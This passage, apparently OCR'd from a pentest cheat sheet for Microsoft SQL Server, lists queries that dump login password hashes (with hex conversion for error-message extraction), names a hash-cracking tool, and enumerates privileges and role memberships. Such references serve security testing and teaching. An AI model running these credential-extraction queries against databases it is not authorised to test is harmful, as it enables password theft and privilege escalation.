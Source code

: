 | List Password Hashes         | SELECT name, password FROM master..sysxlogins — priv, mssql 2000;  <br>SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins — priv, mssql 2000.  Need to convert to hex to return hashes in MSSQL error message / some version of query analyzer.  <br>SELECT name, password_hash FROM master.sys.sql_logins — priv, mssql 2005;  <br>SELECT name + ‘-‘ + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins — priv, mssql 2005                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| Password Cracker             | MSSQL 2000 and 2005 Hashes are both SHA1-based.  [phrasen\|drescher](https://labs.portcullis.co.uk/application/phrasen-drescher/) can crack these.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| List Privileges              | — current privs on a particular object in 2005, 2008  <br>SELECT permission_name FROM master..fn_my_permissions(null, ‘DATABASE’); — current database  <br>SELECT permission_name FROM master..fn_my_permissions(null, ‘SERVER’); — current server  <br>SELECT permission_name FROM master..fn_my_permissions(‘master..syslogins’, ‘OBJECT’); –permissions on a table  <br>SELECT permission_name FROM master..fn_my_permissions(‘sa’, ‘USER’);<br><br>–permissions on a user– current privs in 2005, 2008  <br>SELECT is_srvrolemember(‘sysadmin’);  <br>SELECT is_srvrolemember(‘dbcreator’);  <br>SELECT is_srvrolemember(‘bulkadmin’);  <br>SELECT is_srvrolemember(‘diskadmin’);  <br>SELECT is_srvrolemember(‘processadmin’);  <br>SELECT is_srvrolemember(‘serveradmin’);  <br>SELECT is_srvrolemember(‘setupadmin’);  <br>SELECT is_srvrolemember(‘securityadmin’);<br><br>— who has a particular priv? 2005, 2008  <br>SELECT name FROM master..syslogins WHERE denylogin = 0;  <br>SELECT name FROM master..syslogins WHERE hasaccess = 1;  <br>SELECT name FROM master..syslogins WHERE isntname = 0;  <br>SELECT name FROM master..syslogins WHERE isntgroup = 0;  <br>SELECT name FROM master..syslogins WHERE sysadmin = 1;  <br>SELECT name FROM master..syslogins WHERE securityadmin = 1;  <br>SELECT name FROM master..syslogins WHERE serveradmin = 1;  <br>SELECT name FROM master..syslogins WHERE setupadmin = 1;  <br>SELECT name FROM master..syslogins WHERE processadmin = 1;  <br>SELECT name FROM master..syslogins WHERE diskadmin = 1;  <br>SELECT name FROM master..syslogins WHERE dbcreator = 1;  <br>SELECT name FROM master..syslogins WHERE bulkadmin = 1; |